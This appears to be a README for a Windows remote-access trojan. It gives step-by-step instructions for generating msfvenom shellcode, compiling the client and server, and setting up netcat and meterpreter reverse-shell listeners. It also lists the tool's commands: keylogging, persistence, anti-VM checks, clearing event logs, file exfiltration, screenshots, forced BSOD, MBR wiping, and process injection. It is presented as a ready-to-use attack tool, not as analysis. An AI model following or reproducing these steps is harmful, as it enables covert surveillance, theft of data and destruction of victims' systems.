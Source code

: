 # Setup

After cloning the whole project and getting inside of the x86 folder:

1. Open Client.c and replace the contents of the variable ServerIP at line 30 with the IP address of the attacker machine

2. From the terminal, generate the shellcode for ShellcodeX86 using the first commented msfvenom command (Replace the LHOST variable with the IP address of the attacker machine)

3. Now Generate the respective shellcodes for ShellcodeSpawnNetcat and FallBackShell using the last 2 commented msfvenom commands (Replace the LHOST variable just like you did before (2.) )

4. Copy the output from msfvenom for ShellcodeSpawnNetcat and FallBackShell, and paste it inside of ESH.c

5. Compile and execute ESH.c
```bash
gcc ESH.c -o esh && ./esh
```

6. Grab the output of esh, and replace ShellcodeSpawnNetcat and FallBackShell inside of the Client.c file and save.

7. Open Server.c and replace the contents at line 14 with the IP address of the attacker machine and save.

8. You should now be good to go, compile everything by typing:
```bash
i686-w64-mingw32-gcc -o Client.exe Client.c -lwsock32 -lwininet -lgdi32 -lntdll && gcc Server.c -o Server -lpthread && echo "Compilation Successful"
```

9. If everything went correctly, the string "Compilation Successful" should popup in your terminal. If not, there was an error when trying to compile. Make sure you did everything correctly.

10. Setting the server: Before executing the Client on the victim machine, you must make sure to open another tab in your terminal (On the attacker machine), and execute the following command:
```bash
nc -lvnp 38524
```

If you don't do this, when executing Client.exe, no reverse shell will be received due to the fact that you weren't listening on port 38524, and Client.exe will crash (The same thing will happen if you decide to send 'startcat' before listening for a connection on port 443)

11. Now you should start the main server by typing:
```bash
./Server start
```

12. Before using 'inject86', open a new terminal tab, load msfconsole, and paste the lines below:
```bash
use exploit/multi/handler
set LHOST SERVER-IP
set LPORT 4444
set payload windows/meterpreter/reverse_tcp
run
```

Everything should now be ready. Start the server, the client, and enjoy :)

# Commands

q : Closes the connection with the client and exits

menu : Prints the menu showing all available commands

startlogger : Starts logging keystrokes and saves them to a file named 'out.txt' on the client machine

stoplogger : Stops logging keystrokes

persistence1 -> persistence3 : Uses hardcoded paths to establish persistence

removepers : Removes all hardcoded persistence methods used on the remote host

isvm : Performs basic checks to determine whether the client is running inside a 
virtual machine and returns the results

isadmin : Verifies whether the server has administrative privileges

cleanlogs : Removes the Event Viewer logs

updateurl : Updates the URL used to download files on the remote host

download : Downloads a file to the remote host using the URL and a specified filename

getfile : Retrieves a file from the remote host and transfers it to the server

diskspace : Returns the disk space for the C: drive

drives : Enumerates all connected drives

screenshot : Takes a screenshot of the remote host's desktop and transfers it to the server

cleanbin : Cleans the recycle bin (No popup)

hostname : Retrieves the hostname of the remote host

popup : Spawns a visible popup on the remote host (For debug)

bsodwin : Crashes the remote host, causing a BSOD (Blue Screen of Death)

wipembr : Overwrites the MBR on the remote host

inject86 : Spawns a new Notepad process and injects shellcode into it to establish a reverse shell connection to the msfconsole listener

startcat : Injects shellcode to connect to a listener running on the server
